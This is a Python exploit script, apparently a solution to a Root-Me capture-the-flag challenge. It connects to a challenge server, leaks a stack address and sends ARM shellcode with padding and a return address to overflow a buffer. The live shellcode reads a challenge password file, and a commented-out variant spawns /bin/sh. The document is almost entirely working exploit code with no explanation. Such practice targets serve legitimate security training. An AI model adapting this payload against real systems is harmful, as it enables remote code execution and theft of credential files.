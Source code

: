 ## BOF Socket
#!/usr/bin/env python3

import socket
import struct
import time


#shellcode = b'\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x0c\x30\xc0\x46\x01\x90\x49\x1a\x92\x1a\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68'
shellcode = b'\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x24\x33\x78\x46\x16\x30\x92\x1a\x02\x72\x05\x1c\x2c\x35\x2a\x70\x69\x46\x4b\x60\x8a\x60\x08\x60\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x63\x61\x74\x5a\x2f\x63\x68\x61\x6c\x6c\x65\x6e\x67\x65\x2f\x61\x70\x70\x2d\x73\x79\x73\x74\x65\x6d\x65\x2f\x63\x68\x34\x35\x2f\x2e\x70\x61\x73\x73\x77\x64'

offset = 168 - 4 - len(shellcode) # 4 = longueur de l'address retour
print("[*]offset= {}".format(offset))

#connection
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('challenge04.root-me.org', 61045))
print(s.recv(1024).decode())
time.sleep(1)

#addresse de la variable
s.send(b'A\n')
rep = s.recv(4096)
return_addr = rep.decode().split(":")[0]
return_addr = struct.pack('I', int( return_addr , 16))
print("[*] return_addr = {}\n".format(return_addr))

s.send(b'y\n')
print(s.recv(1024).decode())

Payload = shellcode + b'A'*offset + return_addr + b'\n'
print("[*] Envoi de {}".format(Payload))
s.send(Payload)
print(s.recv(4096).decode())

s.send(b'n\n')
print(s.recv(4096).decode())
print(s.recv(4096).decode())
print(s.recv(4096).decode())
print(s.recv(4096).decode())
print(s.recv(4096).decode())
print(s.recv(4096).decode())
print(s.recv(4096).decode())
print(s.recv(4096).decode())
print(s.recv(4096).decode())


